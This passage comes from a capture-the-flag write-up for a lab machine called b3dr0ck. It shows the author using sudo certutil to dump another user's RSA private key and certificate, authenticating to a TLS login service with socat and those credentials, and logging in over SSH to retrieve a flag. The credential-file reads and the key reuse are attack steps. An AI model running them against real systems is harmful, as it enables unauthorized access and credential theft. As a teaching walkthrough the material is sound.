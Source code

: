 ### **<strong><font color="DarkCyan">TLS/SSL Certificates</font></strong>**

* Let's cat out ```fred.certificate.pem``` and ```fred.clientKey.pem``` using ```certutil``` 
```console
barney@b3dr0ck:~$ sudo certutil cat /usr/share/abc/certs/fred.certificate.pem
Generating credentials for user: cat (usrshareabccertsfred)
Generated: clientKey for cat: /usr/share/abc/certs/cat.clientKey.pem
Generated: certificate for cat: /usr/share/abc/certs/cat.certificate.pem
-----BEGIN RSA PRIVATE KEY-----
MIIEowIBAAKCAQEA18JHcFh9hi4NCvwV4nskbCRjEnncd6a+AP6fguB1mfClJktv
FabP85AEd31fWCZ22763txrH3bYlBQDNxZm3USjB3WBWJ3dO2k0yH/bzvHfcMOMa
CfBWhy5VknTCJCtp/aT3sVJhXxURdvgEqyaNqsnjvd319Egqhy0zM3rFXe19wUSl
RZnHbdZSEAi3Z/znk7BRZZTgGYK0ztJe/x0zGizPQ7ngq6iTkD+QTZIs6rs2OOby
fNCl5N4Exe6s42Fv4yB4iqIAGYgNI8igJdnmtoiFW8LkqCYox4+P6vHtFmk2Wb0r
upFv9PkeF8TvFPEm85F+iIjuLewNn6Qdk8O/5wIDAQABAoIBAFnaad/qqlPgB8SE
WSTZvcBfovbF0z/tLAHECG/7xF4Yrt502c09jCrV1lZg2v0d/6/iDCZwO74kpeQg
gpGBQ6vD+oCUJy0GbctSDMbtFHJvxD6DxYtQEOj5Ld/xSgzAG8LrGdA6C50KbByM
                        [... snip ...]
tpPR5Pw8CqxwnNBpkQscd9LHHYrSw4mLYZgvA7XSX9anDPI0J92IwZU9tp74xiDb
8lC7yxifwNxzl9LSs25EruHEwIzvdxbOF3GLiJB6Drh4ht5PZ4XQ+t3Z5JQbID1a
y0CEws5JJaBPrFOZK+q/qQKBgCPi2NLsfyqpS+5Bn1nH0xXEpZ6urmLheThWnrsu
+vzT81v7wW9cH3RGi8OUHpwUTq0zclK7EjU7GtpUEr3k07H+2BseyqVmb1VMOagd
EwHX8R8Kx5mf/BCBfze0H2fassU3UDIx79DOkVpDBkkMsLsiuHlowf3HV4U2iheM
wqPJAoGBALGO80rfNo9BrF5CqHhqEWkmB4RbOBS24KzlxABtDq08S8TMoFsh2gRG
rbHn8XCaCwha94bJdzoyulgeXLK37XUifFmeL9av1c38eR03QZejamOV0EIoEWwY
aCpQqJpDfcEJesBwE5wTAuOlvXCfLkvlcKBbZFPowcc2UI+y4Ns2
-----END RSA PRIVATE KEY-----
-----BEGIN CERTIFICATE-----
MIICqDCCAZACAjA5MA0GCSqGSIb3DQEBCwUAMBQxEjAQBgNVBAMMCWxvY2FsaG9z
dDAeFw0yMjA4MjgwNDA4MjlaFw0yMjA4MjkwNDA4MjlaMB8xHTAbBgNVBAMMFHVz
cnNoYXJlYWJjY2VydHNmcmVkMIIBIjANBgkqhkiG9w0BAQEFAAOCAQ8AMIIBCgKC
AQEA18JHcFh9hi4NCvwV4nskbCRjEnncd6a+AP6fguB1mfClJktvFabP85AEd31f
WCZ22763txrH3bYlBQDNxZm3USjB3WBWJ3dO2k0yH/bzvHfcMOMaCfBWhy5VknTC
                        [... snip ...]
YHdGO8qgoJvFulw8ohl+QYwcfFqasksbNbgpcMA4NeMDcPOuT4uwr9eDoIcZzZOx
Z8KIHQS1zCh4xLWVQ/OXIBymqNE7mzMtXkfKsOyXUNiMR1HM0kJPeaxKQEl6446T
EPTpNPXeK4A5oueGxmR+gxKqAUGPQ1MD3n/C2sg0yEhvmRsbnDOpYA8omQQW54b7
9CMMjZkSKN0eqVCdl1oTvXz7pDt23NmpLAvKQMRMOV9+UViMrnMkZ7lYIsOG1aBB
n/RADbOy2f6AIA3KYleeUN58dNTyp+rFtub7D8yjhbYJTaz5bZmxXEm02Ly6QkI6
2T0A4WQFdnbRiA+h
-----END CERTIFICATE-----
```

> ⚠️ **Warning** : If you try reading the certs without the ```certutil``` utility, you'd get a ```Permission denied``` error
> ```console
  barney@b3dr0ck:~$ cat /usr/share/abc/certs/fred.certificate.pem
  cat: /usr/share/abc/certs/fred.certificate.pem: Permission denied
  ```

* Let's connect to the secure login service running on port ```54321``` :

<figure><center><img src="https://raw.githubusercontent.com/YounesTasra-R4z3rSw0rd/My-Files/main/kali5.png" alt=""></center><center><em><figcaption>socat stdio ssl:MACHINE_IP:54321,cert=Fred.certificate.pem,key=Fred.clientkey.pem,verify=0</figcaption></em></center></figure>

### **<strong><font color="DarkCyan">Log In as Fred</font></strong>**

* Let's use the password we got and log in as ```fred``` using ```SSH``` and retrieve the second flag lying in fred.txt file : 
```console
kali@kali$ ssh fred@10.10.50.150  
fred@10.10.50.150's password: 
fred@b3dr0ck:~$ whoami
  ```